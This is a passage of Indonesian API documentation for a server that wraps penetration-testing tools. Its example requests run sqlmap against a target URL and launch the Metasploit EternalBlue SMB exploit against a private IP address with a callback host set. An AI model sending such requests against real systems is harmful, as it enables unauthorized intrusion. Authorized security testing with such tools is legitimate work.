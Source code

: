 **Parameters:**
- `url` (required): URL target dengan parameter
- `data` (optional): POST data untuk testing
- `additional_args` (optional): Argumen tambahan

**Response:**
```json
{
  "stdout": "sqlmap/1.4.7#stable\n[!] legal disclaimer...",
  "stderr": "",
  "return_code": 0,
  "success": true,
  "timed_out": false,
  "partial_results": false
}
```

**Example:**
```bash
curl -X POST http://localhost:5000/api/tools/sqlmap \
  -H "Content-Type: application/json" \
  -d '{
    "url": "http://target.com/page.php?id=1",
    "additional_args": "--batch"
  }'
```

---

### 8. Metasploit Framework

#### POST /api/tools/metasploit
Menjalankan module Metasploit.

**Request Body:**
```json
{
  "module": "exploit/windows/smb/ms17_010_eternalblue",
  "options": {
    "RHOSTS": "192.168.1.100",
    "RPORT": "445",
    "LHOST": "192.168.1.50"
  }
}
```

**Parameters:**
- `module` (required): Path module Metasploit
- `options` (optional): Dictionary opsi module

**Response:**
```json
{
  "stdout": "msf6 > use exploit/windows/smb/ms17_010_eternalblue...",
  "stderr": "",
  "return_code": 0,
  "success": true,
  "timed_out": false,
  "partial_results": false
}
```
